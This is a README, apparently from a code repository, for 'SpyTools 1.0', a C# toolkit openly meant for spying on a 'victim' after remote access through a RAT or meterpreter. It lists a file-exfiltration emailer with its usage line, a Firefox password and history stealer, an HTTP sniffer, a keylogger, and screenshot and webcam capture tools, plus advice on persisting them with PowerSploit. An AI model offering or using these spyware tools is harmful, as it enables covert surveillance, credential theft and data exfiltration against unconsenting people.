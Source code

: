 # SpyTools 1.0
<br/>
SpyTools is a collection of little tools wirtten in C# .Net 2.0, usefull to spy a vectim. If you got remote access, with a RAT or meterpreter, you can upload this tools to the victim machine, and run them, or persist them using Porwersploit. It is distributed under the GNU GPLv3 license.
<br/>
<br/>
List of tools:
<br/>
EmailSender: get all files with some extensions in the current path, and send an email attaching them.
<br/>
Usage: EmailSender.exe "server.com" "user@server.com" "password" "from@domain.com" "FromName" "to@domain.com" "Subject" "Body" "jpg,txt,png"
<br/>
<br/>
FoxyStealer: copy to the current path, all firefox database and conifg files, for each profile. You can get the history or the passwords saved form them.
<br/>
Usage: FoxyStealer.exe
<br/>
<br/>
HTTPSniffer: Start to capture all HTTP traffic, and flush them into a txt file.
<br/>
Usage: HTTPSniffer.exe ["OutputFileName" NumericIntervalToFlushTrafficToDisk]
<br/>
<br/>
Keylogger: Start to capture all keys, and flush them into a file.
<br/>
Usage: Keylogger.exe ["OutputFileName" NumericIntervalToFlushKeysToDisk]
<br/>
<br/>
Printscreen: Take a screenshot.
<br/>
Usage: Printscreen.exe ["OutputFileName"]
<br/>
<br/>
WebcamSnap: Take a picture from the webcam.
<br/>
Usage: WebcamSnap.exe ["OutputFileName"]